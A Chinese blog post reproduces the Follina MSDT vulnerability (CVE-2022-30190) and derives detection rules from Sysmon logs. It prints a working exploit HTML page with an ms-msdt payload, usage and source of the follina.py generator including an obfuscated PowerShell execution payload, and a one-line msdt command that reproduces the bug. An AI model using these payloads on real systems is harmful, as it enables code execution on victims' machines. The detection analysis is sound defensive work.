









# CVE-2022-30190 漏洞复现和检测——属于典型的无文件攻击场景之一 - bonelee - 博客园

> 原文：[`www.cnblogs.com/bonelee/p/16337291.html`](https://www.cnblogs.com/bonelee/p/16337291.html)

### 漏洞描述：CVE-2022-30190: Microsoft Windows 支持诊断工具(MSDT)远程代码执行漏洞

### 漏洞价值：**==》以前发钓鱼邮件恶意 office 附件还要用户启动宏，这个漏洞比较高级！完全不需要，看来黑产钓鱼邮件又有一场血雨腥风了。。。**

CVE: CVE-2022-30190

组件: Microsoft Windows Support Diagnostic Tool(MSDT) Windows

漏洞类型: 代码执行

影响: 服务器接管

简述: 从 Word 等调用应用程序使用 URL 协议调用 MSDT 时存在远程执行代码漏洞。成功利用此漏洞的攻击者可以使用调用应用程序的权限运行任意代码。然后，攻击者可以安装程序、查看、更改或删除数据，或者在用户权限允许的上下文中创建新帐户。

漏洞原理见：https://www.bleepingcomputer.com/news/security/new-microsoft-office-zero-day-used-in-attacks-to-execute-powershell/

核心总结就是：恶意的 Word 文档，使用远程模板功能，以从一个远程服务器获取 HTML 文件。HTML 代码然后使用微软的 MS-MSDT URI 协议执行 PowerShell 代码。当然从后面 exploit.html 源码看的确是：

```
<!doctype html>
<html lang="en">
<head>
<title>
Good thing we disabled macros
</title>
</head>
<body>
<p>
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque pellentesque egestas nulla in dignissim. Nam id mauris lorem. Nunc suscipit id magna id mollis. Pellentesque suscipit orci neque, at ornare sapien bibendum eu. Vestibulum malesuada nec sem quis finibus. Nam quis ligula et dui faucibus faucibus. In quis bibendum tortor.

Curabitur rutrum leo tortor, venenatis fermentum ex porttitor vitae. Proin eu imperdiet lorem, ac aliquet risus. Aenean eu sapien pharetra, imperdiet ipsum ut, semper diam. Nulla facilisi. Sed euismod tortor tortor, non eleifend nunc fermentum sit amet. Integer ligula ligula, congue at scelerisque sit amet, porttitor quis felis. Maecenas nec justo varius, semper turpis ut, gravida lorem. Proin arcu ligula, venenatis aliquam tristique ut, pretium quis velit.

Phasellus tristique orci enim, at accumsan velit interdum et. Aenean nec tristique ante, dignissim convallis ligula. Aenean quis felis dolor. In quis lectus massa. Pellentesque quis pretium massa. Vivamus facilisis ultricies massa ac commodo. Nam nec congue magna. Nullam laoreet justo ut vehicula lobortis.

Aliquam rutrum orci tortor, non porta odio feugiat eu. Vivamus nulla mauris, eleifend eu egestas scelerisque, vulputate id est. Proin rutrum nec metus convallis ornare. Ut ultricies ante et dictum imperdiet. Ut nisl magna, porttitor nec odio non, dapibus maximus nibh. Integer lorem felis, accumsan a dapibus hendrerit, maximus nec leo. Vestibulum porta, orci sed dignissim porta, sem justo porta odio, quis rutrum tortor arcu quis massa. Aenean eleifend nisi a quam faucibus, quis scelerisque lectus condimentum. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Proin non dui nec odio finibus molestie. Suspendisse id massa nunc. Sed ultricies et sapien vel fringilla.
</p>
<p>
Donec tincidunt ac justo et iaculis. Pellentesque lacinia, neque at consectetur porttitor, leo eros bibendum lorem, eu sollicitudin dolor urna pharetra augue. Pellentesque facilisis orci quis ante tempor, ac varius eros blandit. Nulla vulputate, purus eu consectetur ullamcorper, mauris nulla commodo dolor, in maximus purus mi eget purus. In mauris diam, imperdiet ac dignissim ut, mollis in purus. In congue volutpat tortor eu auctor. Nullam a eros lectus. Aenean porta semper quam ac lacinia. Curabitur interdum, nisl eu laoreet tempus, augue nisl volutpat odio, dictum aliquam massa orci sit amet magna.

Duis pulvinar vitae neque non placerat. Nullam at dui diam. In hac habitasse platea dictumst. Sed quis mattis libero. Nullam sit amet condimentum est. Nulla eget blandit elit. Nunc facilisis erat nec ligula ultrices, malesuada mollis ex porta. Phasellus iaculis lorem eu augue tincidunt, in ultrices massa suscipit. Donec gravida sapien ac dui interdum cursus. In finibus eu dolor sit amet porta. Sed ultrices nisl dui, at lacinia lectus porttitor ut.

Ut ac viverra risus. Suspendisse lacus nunc, porttitor facilisis mauris ut, ullamcorper gravida dolor. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Vivamus sollicitudin, arcu id sagittis facilisis, turpis dolor eleifend massa, in maximus sapien dui et tortor. Quisque varius enim sed enim venenatis tempor. Praesent quis volutpat lorem. Pellentesque ac venenatis lacus, vitae commodo odio. Sed in metus at libero viverra mollis sed vitae nibh. Sed at semper lectus.
</p>
<p>
Proin a interdum justo. Duis sed dui vitae ex molestie egestas et tincidunt neque. Fusce lectus tellus, pharetra id ex at, consectetur hendrerit nibh. Nulla sit amet commodo risus. Nulla sed dapibus ante, sit amet fringilla dui. Nunc lectus mauris, porttitor quis eleifend nec, suscipit sit amet massa. Vivamus in lectus erat. Nulla facilisi. Vivamus sed massa quis arcu egestas vehicula. Nulla massa lorem, tincidunt sed feugiat quis, faucibus a risus. Sed viverra turpis sit amet metus iaculis finibus.

Morbi convallis fringilla tortor, at consequat purus vulputate sit amet. Morbi a ultricies risus, id maximus purus. Fusce aliquet tortor id ante ornare, non auctor tortor luctus. Quisque laoreet, sem id porttitor eleifend, eros eros suscipit lectus, id facilisis lorem lorem nec nibh. Nullam venenatis ornare ornare. Donec varius ex ac faucibus condimentum. Aenean ultricies vitae mauris cursus ornare. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas aliquet felis vel nulla auctor, ac tempor mi mattis. Nam accumsan nisi vulputate, vestibulum nisl at, gravida erat. Nam diam metus, tempor id sapien eu, porta luctus felis. Aliquam luctus vitae tortor quis consectetur. In rutrum neque sit amet fermentum rutrum. Sed a velit at metus pretium tincidunt tristique eget nibh. In ultricies, est ut varius pulvinar, magna purus tristique arcu, et laoreet purus elit ac lectus. Ut venenatis tempus magna, non varius augue consectetur ut.

Etiam elit risus, ullamcorper cursus nisl at, ultrices aliquet turpis. Maecenas vitae odio non dolor venenatis varius eu ac sem. Phasellus id tortor tellus. Ut vehicula, justo ac porta facilisis, mi sapien efficitur ipsum, sit fusce.
</p>
<script>
    location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(\\windows\\system32\\calc)/.exe\"";
</script>

</body>
</html>

```

==》核心：location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(\\windows\\system32\\calc)/.exe\"";

我们来复现下该漏洞过程，payload 来源：

https://github.com/chvancooten/follina.py

运行方法：

```
C:\Users\bonel\Desktop\follina.py-main>python .\follina.py -t docx -m binary -b calc.exe
Generated 'clickme.docx' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html

```

然后浏览器打开：http://localhost:80/exploit.html 出现：



点击打开，最后弹出 calc.exe 进程，黑客可以将 calc.exe 换成远控木马，你懂得！



process explorer 看到的进程树：

 

当然，还有一种最简单的复现方法，就是命令行直接执行：msdt ms-msdt:/id PCWDiagnostic /skip force /param "IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc)/.exe"

在我 win10 里最后也弹出上述界面。

此外，如果是 word 里打开，则进程调用如下图，见 https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/



亲自试了下，win10 64 环境，office LTSC 专业增强版本 2021 复现了该漏洞，采集到的运行截图和进程信息：



 进程树：



 注意：如果是`python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe`

修改成 rtf 格式也是可以的。进程树和上同。

如果是：python .\follina.py -t docx -m command -c calc.exe

则无非是 payload 不一样，源码分析：

```
 if args.mode == "command":
        # Original PowerShell execution variant
        command = args.command.replace("\"", "\\\"")
        encoded_command = base64.b64encode(bytearray(command, 'utf-16-le')).decode('UTF-8') # Powershell life...
        payload = fr'''"ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'Unicode.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'{encoded_command}'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\""'''

    if args.mode == "binary":
        # John Hammond binary variant
        binary_path = args.binary.replace('\\', '\\\\').rstrip('.exe')
        payload = fr'"ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$({binary_path})/.exe\""'
        print("payload:", payload)

```

 但是进程树还是没啥区别。



 -----------------------------------------------------------------------------------------------------------------------------

好了，我们来看下 msdt 是什么？然后看如何检测这类漏洞导致的攻击。

Microsoft Windows 支持诊断工具 (*MSDT*)，官方介绍：

# msdt

*   Article
*   03/23/2021

Invokes a troubleshooting pack at the command line or as part of an automated script, and enables additional options without user input.

## Syntax

```
msdt </id <name> | /path <name> | /cab < name>> <</parameter> [options] … <parameter> [options]>> 
```

### Parameters

| Parameter | Description |
| --- | --- |
| /id `<packagename>` | Specifies which diagnostic package to run. For a list of available packages, see [Available Troubleshooting packs](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ee424379(v=ws.11)#available-troubleshooting-packs). |
| /path `<directory&#124;.diagpkg file&#124;.diagcfg file>` | Specifies the full path to a diagnostic package. If you specify a directory, the directory must contain a diagnostic package. You cannot use the **/path** parameter in conjunction with the** /id**, **/dci**, or **/cab** parameters. |
| /dci `<passkey>` | Prepopulates the passkey field. This parameter is only used when a support provider has supplied a passkey. |
| /dt `<directory>` | Displays the troubleshooting history in the specified directory. Diagnostic results are stored in the user’s **%LOCALAPPDATA%\Diagnostics** or **%LOCALAPPDATA%\ElevatedDiagnostics** directories. |
| /af `<answerfile>` | Specifies an answer file in XML format that contains responses to one or more diagnostic interactions. |
| /modal `<ownerHWND>` | Makes the troubleshooting pack modal to a window designated by the parent Console Window Handle (HWND), in decimal. This parameter is typically used by applications that launch a troubleshooting pack. For more information about obtaining Console Window Handles, see [How to Obtain a Console Window Handle (HWND)](https://support.microsoft.com/help/124103/how-to-obtain-a-console-window-handle-hwnd). |
| /moreoptions `<true&#124;false>` | Enables (true) or suppresses (false) the final troubleshooting screen that asks if the user wants to explore additional options. This parameter is typically used when the troubleshooting pack is launched by a troubleshooter that isn't part of the operating system. |
| /param `<parameters>` | Specifies a set of interaction responses at the command line, similar to an answer file. This parameter isn't typically used within the context of troubleshooting packs created with TSP Designer. For more information about developing custom parameters, see [Windows Troubleshooting Platform](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/wintt/windows-troubleshooting-toolkit-portal).==>在命令行指定一组交互响应，....一堆巴拉巴拉的东西。。。核心：开发自定义参数！！！ |
| /advanced | Expands the advanced link on the Welcome page by default when the troubleshooting pack is started. |
| /custom | Prompts the user to confirm each possible resolution before it is applied. |

好了，既然是自定义参数就好理解漏洞为啥产生了，应该是底层堆栈溢出了。

看看针对上述浏览器点击后，最终运行 calc.exe 数据采集，如下 sysmon 采集的数据：

1、最后一步，看到了 calc.exe，

```
Process Create:
RuleName: -
UtcTime: 2022-06-02 02:57:11.385
ProcessGuid: {0bf95bee-2707-6298-f204-000000001000}
ProcessId: 7856
Image: C:\Windows\System32\calc.exe
FileVersion: 10.0.19041.1 (WinBuild.160101.0800)
Description: Windows Calculator
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: CALC.EXE
CommandLine: "C:\Windows\system32\calc.exe"
CurrentDirectory: C:\Users\bonel\AppData\Local\Temp\SDIAG_9b730195-a334-4526-b858-efc005d7882d\
User: DESKTOP-92JS9SJ\bonel
LogonGuid: {0bf95bee-19d3-6298-031c-090000000000}
LogonId: 0x91C03
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: MD5=5DA8C98136D98DFEC4716EDD79C7145F,SHA256=58189CBD4E6DC0C7D8E66B6A6F75652FC9F4AFC7CE0EBA7D67D8C3FEB0D5381F,IMPHASH=8EEAA9499666119D13B3F44ECD77A729
ParentProcessGuid: {0bf95bee-2706-6298-ec04-000000001000}
ParentProcessId: 1252
ParentImage: C:\Windows\System32\sdiagnhost.exe
ParentCommandLine: C:\Windows\System32\sdiagnhost.exe -Embedding
ParentUser: DESKTOP-92JS9SJ\bonel

```

 可以看到其 ParentImage: C:\Windows\System32\sdiagnhost.exe，就是诊断窗口弹出来那玩意。

2、当然诊断窗口会弹出一堆进程，比如：csc.exe

```
Process Create:
RuleName: -
UtcTime: 2022-06-02 02:57:11.265
ProcessGuid: {0bf95bee-2707-6298-f004-000000001000}
ProcessId: 3924
Image: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe
FileVersion: 4.8.4084.0 built by: NET48REL1
Description: Visual C# Command Line Compiler
Product: Microsoft® .NET Framework
Company: Microsoft Corporation
OriginalFileName: csc.exe
CommandLine: "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe" /noconfig /fullpaths @"C:\Users\bonel\AppData\Local\Temp\y2qzf0yf.cmdline"
CurrentDirectory: C:\Users\bonel\AppData\Local\Temp\SDIAG_9b730195-a334-4526-b858-efc005d7882d\
User: DESKTOP-92JS9SJ\bonel
LogonGuid: {0bf95bee-19d3-6298-031c-090000000000}
LogonId: 0x91C03
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: MD5=F65B029562077B648A6A5F6A1AA76A66,SHA256=4A6D0864E19C0368A47217C129B075DDDF61A6A262388F9D21045D82F3423ED7,IMPHASH=EE1E569AD02AA1F7AECA80AC0601D80D
ParentProcessGuid: {0bf95bee-2706-6298-ec04-000000001000}
ParentProcessId: 1252
ParentImage: C:\Windows\System32\sdiagnhost.exe
ParentCommandLine: C:\Windows\System32\sdiagnhost.exe -Embedding
ParentUser: DESKTOP-92JS9SJ\bonel

```

 看到 sdiagnhost.exe 的：

```
Process Create:
RuleName: -
UtcTime: 2022-06-02 02:57:10.776
ProcessGuid: {0bf95bee-2706-6298-ec04-000000001000}
ProcessId: 1252
Image: C:\Windows\System32\sdiagnhost.exe
FileVersion: 10.0.19041.1 (WinBuild.160101.0800)
Description: Scripted Diagnostics Native Host
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: sdiagnhost.exe
CommandLine: C:\Windows\System32\sdiagnhost.exe -Embedding
CurrentDirectory: C:\Windows\system32\
User: DESKTOP-92JS9SJ\bonel
LogonGuid: {0bf95bee-19d3-6298-031c-090000000000}
LogonId: 0x91C03
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: MD5=6A21B1893DDE94CB87BA56111375888A,SHA256=761815301A00D0B3A7BB4959A5004B623C55009CE701C6E867C96F468DC1323A,IMPHASH=88C840A970A1633DCA61E1CD2D926E21
ParentProcessGuid: {00000000-0000-0000-0000-000000000000}
ParentProcessId: 728
ParentImage: -
ParentCommandLine: -
ParentUser: -

```

注意：ParentProcessId: 728

C:\Users\bonel>tasklist |findstr 728
svchost.exe                    728 Services                   0     19,376 K

3、这期间 msdt.exe 产生了一些 ps1 的临时文件

```
File created:
RuleName: -
UtcTime: 2022-06-02 02:57:10.685
ProcessGuid: {0bf95bee-2706-6298-eb04-000000001000}
ProcessId: 2412
Image: C:\Windows\system32\msdt.exe
TargetFilename: C:\Users\bonel\AppData\Local\Temp\SDIAG_9b730195-a334-4526-b858-efc005d7882d\VF_ProgramCompatibilityWizard.ps1
CreationUtcTime: 2022-06-02 02:57:10.685
User: DESKTOP-92JS9SJ\bonel

```

```
File created:
RuleName: -
UtcTime: 2022-06-02 02:57:10.685
ProcessGuid: {0bf95bee-2706-6298-eb04-000000001000}
ProcessId: 2412
Image: C:\Windows\system32\msdt.exe
TargetFilename: C:\Users\bonel\AppData\Local\Temp\SDIAG_9b730195-a334-4526-b858-efc005d7882d\TS_ProgramCompatibilityWizard.ps1
CreationUtcTime: 2022-06-02 02:57:10.685
User: DESKTOP-92JS9SJ\bonel

```

```
File created:
RuleName: -
UtcTime: 2022-06-02 02:57:10.685
ProcessGuid: {0bf95bee-2706-6298-eb04-000000001000}
ProcessId: 2412
Image: C:\Windows\system32\msdt.exe
TargetFilename: C:\Users\bonel\AppData\Local\Temp\SDIAG_9b730195-a334-4526-b858-efc005d7882d\RS_ProgramCompatibilityWizard.ps1
CreationUtcTime: 2022-06-02 02:57:10.685
User: DESKTOP-92JS9SJ\bonel

```

还有一个 dll。。。

```
File created:
RuleName: DLL
UtcTime: 2022-06-02 02:57:10.685
ProcessGuid: {0bf95bee-2706-6298-eb04-000000001000}
ProcessId: 2412
Image: C:\Windows\system32\msdt.exe
TargetFilename: C:\Users\bonel\AppData\Local\Temp\SDIAG_9b730195-a334-4526-b858-efc005d7882d\DiagPackage.dll
CreationUtcTime: 2022-06-02 02:57:10.685
User: DESKTOP-92JS9SJ\bonel

```

4、如果是命令行运行的 msdt，则可以看到其父进程是 cmd！

```
Process Create:
RuleName: -
UtcTime: 2022-06-02 02:57:10.632
ProcessGuid: {0bf95bee-2706-6298-eb04-000000001000}
ProcessId: 2412
Image: C:\Windows\System32\msdt.exe
FileVersion: 10.0.19041.1 (WinBuild.160101.0800)
Description: Diagnostics Troubleshooting Wizard
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: msdt.exe
CommandLine: msdt  ms-msdt:/id PCWDiagnostic /skip force /param "IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc)/.exe"
CurrentDirectory: C:\Users\bonel\
User: DESKTOP-92JS9SJ\bonel
LogonGuid: {0bf95bee-19d3-6298-031c-090000000000}
LogonId: 0x91C03
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: MD5=992C3F0CC8180F2F51156671E027AE75,SHA256=6859D1B5D1BEAA2985B298F3FCEE67F0AAC747687A9DEC2B4376585E99E9756F,IMPHASH=3A1E8B78C984CDC6E669D871794AD160
ParentProcessGuid: {0bf95bee-1dbf-6298-e901-000000001000}
ParentProcessId: 3792
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe" 
ParentUser: DESKTOP-92JS9SJ\bonel

```

通过 cmd 里运行 msdt 的进程树如下（火绒剑里的绘图）：


可 svchost.exe 派生的 sdiagnhost.exe！！！



 

 5、如果是通过浏览器打开的诊断工具，则 msdt.exe 的父进程是 msedge.exe，当然 firefox 啥的也可能。

```
Process Create:
RuleName: -
UtcTime: 2022-06-02 03:06:44.756
ProcessGuid: {0bf95bee-2944-6298-0d05-000000001000}
ProcessId: 2076
Image: C:\Windows\System32\msdt.exe
FileVersion: 10.0.19041.1 (WinBuild.160101.0800)
Description: Diagnostics Troubleshooting Wizard
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: msdt.exe
CommandLine: "C:\Windows\system32\msdt.exe" ms-msdt:/id 系统找不到指定的设备。PCWDiagnostic 系统找不到指定的设备。/skip 系统找不到指定的设备。force 系统找不到指定的设备。/param 系统找不到指定的设备。设备不识别此命令。IT_RebrowseForFile=?系统找不到指定的设备。IT_LaunchMethod=ContextMenu 系统找不到指定的设备。IT_BrowseForFile=/../../$(calc)/.exe 设备不识别此命令。
CurrentDirectory: C:\Windows\system32\
User: DESKTOP-92JS9SJ\bonel
LogonGuid: {0bf95bee-19d3-6298-031c-090000000000}
LogonId: 0x91C03
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: MD5=992C3F0CC8180F2F51156671E027AE75,SHA256=6859D1B5D1BEAA2985B298F3FCEE67F0AAC747687A9DEC2B4376585E99E9756F,IMPHASH=3A1E8B78C984CDC6E669D871794AD160
ParentProcessGuid: {0bf95bee-19f1-6298-a000-000000001000}
ParentProcessId: 7164
ParentImage: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
ParentCommandLine: "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --no-startup-window --win-session-start /prefetch:5
ParentUser: DESKTOP-92JS9SJ\bonel

```

好了，数据采集和溯源说完了，检测的思路也就出来了：

1、从 cmd/msedge/office 这些进程诞生的 msdt.exe 进程是可疑的。

2、msdt.exe 里参数带有/../../xxxx/.exe，恶意 payload。 ==》直接检测这个也是 ok 的！